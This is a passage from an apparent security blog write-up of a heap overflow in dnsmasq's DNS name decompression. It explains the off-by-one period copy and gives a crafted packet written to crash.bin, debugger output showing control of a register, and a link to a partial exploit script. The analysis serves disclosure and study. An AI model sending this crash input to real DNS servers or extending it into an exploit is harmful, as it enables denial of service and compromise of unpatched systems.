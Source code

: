 Then it reads in <tt>l</tt> bytes, one at a time, and copies them into a buffer - <tt>cp</tt> - which happens to be on the heap. the <tt>namelen</tt> check prevents that from overflowing.

*Then it copies a period into the buffer and doesn't increment namelen*.

Do you see the problem there? It adds <tt>l</tt> to the total length of the buffer, then it reads in <tt>l + 1</tt> bytes, counting the period. Oops?

It turns out, you can mess around with the length and size of substrings quite a bit to get a lot of control over what's written where, but exploiting it is as simple as doing a lookup for "\\x08AAAAAAAA\\xc0\\x0c":

```
<pre id="vimCodeElement">
$ <span class="in">echo -ne '\x12\x34\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x08AAAAAAAA\xc0\x0c\x00\x00\x01\x00\x01' > crash.bin</span>
$ <span class="in">./dnsmasq -d --randomize-port --client-fuzz=./crash.bin</span>
<span class="Comment">[</span>...<span class="Statement">]</span>
Segmentation fault
```

However, there are two termination conditions: it'll only loop a grand total of 255 times, and it stops after <tt>namelen</tt> reaches 1024 (non-period) bytes. So coming up with the best possible balance to overwrite what you want is actually pretty tricky - possibly even requires a bit of calculus (or, if you're an engineer, [a program that can optimize it for you](https://blogdata.skullsecurity.org/dnsmasq-partial-sploit.rb) :) ).

I should also mention: the reason the "\\xc0\\x0c" is needed in the first place is that it's impossible to have a name string in that's 1024 bytes - somewhere along the line, it runs afoul of a length check. The "\\xc0\\x0c" method lets us repeat stuff over and over, sort of like decompressing a small string into memory, overflowing the buffer.

## Exploitability

I mentioned earlier that it's a null-pointer deref:

```
<pre id="vimCodeElement">
(gdb) <span class="in">x/i $rip</span>
=> <span class="Constant">0x7ffff73cc600</span> <__strcpy_sse2+<span class="Constant">192</span>>:  mov    BYTE PTR [rdx],al
(gdb) <span class="in">print/x $rdx</span>
$1 = <span class="Constant">0x0</span>
```

Let's try again with the crash.bin file we just created, using "\\x08AAAAAAAA\\xc0\\x0c" as the payload:

```
<pre id="vimCodeElement">
$ <span class="in">echo -ne '\x12\x34\x01\x00\x00\x01\x00\x00\x00\x00\x00\x00\x08AAAAAAAA\xc0\x0c\x00\x00\x01\x00\x01' > crash.bin</span>
$ <span class="in">gdb -q --args ./dnsmasq -d --randomize-port --client-fuzz=./crash.bin</span>
[...]
(gdb) run
[...]
(gdb) <span class="in">x/i $rip</span>
=> <span class="Constant">0x449998</span> <answer_request+<span class="Constant">1064</span>>:      mov    DWORD PTR [rdx+<span class="Constant">0x20</span>],<span class="Constant">0x0</span>
(gdb) <span class="in">print/x $rdx</span>
$1 = <span class="Constant">0x4141412e41414141</span>
```
